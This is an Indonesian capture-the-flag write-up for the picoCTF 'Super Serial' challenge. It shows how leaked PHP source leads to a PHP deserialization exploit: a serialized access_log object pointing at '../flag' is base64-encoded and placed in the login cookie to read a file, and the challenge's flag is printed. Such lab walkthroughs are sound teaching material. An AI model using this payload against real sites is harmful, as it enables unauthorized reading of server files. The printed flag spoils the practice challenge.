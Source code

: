 # Super Serial
- Link: https://play.picoctf.org/practice/challenge/180?category=1&page=2

## Tantangan
Try to recover the flag stored on this website http://mercury.picoctf.net:3449/

## Penyelesaian
- Buka URL http://mercury.picoctf.net:3449/ di browser


- Jika kita buka path `robots.txt` di url http://mercury.picoctf.net:3449/robots.txt terdapat path dihidden sebagai berikut


- Jika kita buka halaman tersebut di url http://mercury.picoctf.net:3449/admin.phps halaman tersebut tidak ditemukan


- Sekarang kita coba buka `index.phps` dengan url http://mercury.picoctf.net:3449/index.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source. Disini terdapat fungsi pengaturan cookie dengan nama `login` dan value nya diencode menggunakan base64


- Sekarang kita coba buka `cookie.phps` dengan url http://mercury.picoctf.net:3449/cookie.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source


- Sekarang kita coba buka `authentication.phps` dengan url http://mercury.picoctf.net:3449/authentication.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source


- Sekarang kita coba akses halaman http://mercury.picoctf.net:3449/authentication.php

- Klik kanan di halaman tersebut lalu pilih Inspect

- Kemudian pergi ke tab storage. Disini kita bisa mencoba untuk menambahkan cookie `login` dengan value yang diencode dengan base64


- Buka editor PHP online https://legacy-sandbox.onlinephpfunctions.com/ lalu ketikkan code berikut lalu execute code tersebut
```sh
<?php

print(urlencode(base64_encode(serialize("test"))));
```

- Copy value tersebut dan tambahkan ke value cookie `login` dan refresh halaman tersebut
```sh
czo0OiJ0ZXN0Ijs%3D
```

- Ubah source code PHP diatas menjadi sebagai berikut lalu execute code tersebut
```sh
<?php
        
class access_log
{
	public $log_file = "../flag";
}

print(urlencode(base64_encode(serialize(new access_log()))));
```

- Copy value tersebut dan tambahkan ke value cookie `login` dan refresh halaman tersebut
```sh
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```



- Flag
```sh
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```